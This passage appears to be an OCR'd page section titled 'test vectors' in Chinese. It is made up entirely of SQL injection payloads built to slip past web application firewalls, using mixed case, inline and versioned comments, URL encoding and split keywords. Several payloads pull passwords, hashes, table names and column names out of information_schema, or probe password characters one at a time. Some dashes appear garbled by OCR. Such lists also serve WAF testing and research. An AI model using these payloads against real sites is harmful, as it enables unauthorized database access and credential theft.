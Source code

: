 ### d) 测试向量

<pre class="highlight">%55nion(%53elect 1,2,3)-- -

+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/*!u%6eion*/ /*!se%6cect*/
+un/**/ion+se/**/lect
uni%0bon+se%0blect
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/*--*/union/*--*/select/*--*/
union (/*!/**/ SeleCT */ 1,2,3)
/*!union*/+/*!select*/
union+/*!select*/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinctROW+select+
-15+(uNioN)+(sElECt)
-15+(UnI)(oN)+(SeL)(ecT)+

id=1+UnIOn/**/SeLect 1,2,3—
id=1+UNIunionON+SELselectECT 1,2,3—
id=1+/*!UnIOn*/+/*!sElEcT*/ 1,2,3—
id=1 and (select 1)=(Select 0xAA 1000 more A’s)+UnIoN+SeLeCT 1,2,3—
id=1+un/**/ion+sel/**/ect+1,2,3--
id=1+/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3
id=1+/**/union/*&amp;id=*/select/*&amp;id=*/column/*&amp;id=*/from/*&amp;id=*/table--
id=1+/**/union/*&amp;id=*/select/*&amp;id=*/1,2,3--
id=-1 and (select 1)=(Select 0xAA*1000) /*!UNION*/ /*!SELECT*//**/1,2,3,4,5,6—x

/**/union/*&amp;id=*/select/*&amp;id=*/column/*&amp;id=*/from/*&amp;id=*/table--
/*!union*/+/*!select*/+1,2,3—
/*!UnIOn*//*!SeLect*/+1,2,3—
un/**/ion+sel/**/ect+1,2,3—
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3—
ID=66+UnIoN+aLL+SeLeCt+1,2,3,4,5,6,7,(SELECT+concat(0x3a,id,0x3a,password,0x3a)+FROM+information_schema.columns+WHERE+table_schema=0x6334706F645F666573746976616C5F636D73+AND+table_name=0x7573657273),9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--

?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,
?id=15+/*!UnIoN*/+/*!aLl*/+/*!SeLeCt*/+1,version(),3,4,5,6,7--
id=1/*!limit+0+union+select+concat_ws(0×3a,table_name,column_name)+from+information_schema.columns*/

id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(TABLE_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.TABLES-- 
id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--
